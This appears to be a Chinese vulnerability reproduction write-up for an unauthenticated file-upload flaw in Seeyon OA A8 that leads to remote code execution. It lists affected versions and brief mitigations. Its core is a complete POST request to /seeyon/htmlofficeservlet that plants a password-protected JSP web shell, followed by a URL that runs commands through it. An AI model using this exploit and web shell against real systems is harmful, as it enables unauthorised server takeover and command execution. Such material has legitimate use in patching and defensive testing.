# 致远OA A8 系统远程命令执行漏洞

### 一、漏洞简介

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

### 二、漏洞影响

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

**漏洞处置建议**

临时修补方案如下：

1、 配置URL访问控制策略；

2、 在公网部署的致远A8+服务器，通过ACL禁止外网对“/seeyon/htmlofficeservlet”路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。

详情请移步CNVD官网查看https://www.cnvd.org.cn/webinfo/show/5095

### 三、复现过程

先访问/seeyon/htmlofficeservlet

![](images/15897241924835.png)


出现DBSTEP V3.0 0 21 0 htmoffice operate err

![](images/15897241989885.png)


掏出burp进行抓包替换成poc如下

![](images/15897242058286.png)


提交POST请求包，查看回显如下


![](images/15897242127555.png)


**小结**

POC：(POST包)


```bash
POST /seeyon/htmlofficeservlet HTTP/1.1
Content-Length: 1111
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 127.0.0.1
Pragma: no-cache

DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("123".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce
```


```
http:/url/seeyon/test123456.jsp?pwd=123&cmd=cmd+/c+whoami
```

test123456.jsp名称由来为`FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6`解密以后，加密方式不详，可能为oa内置加密方式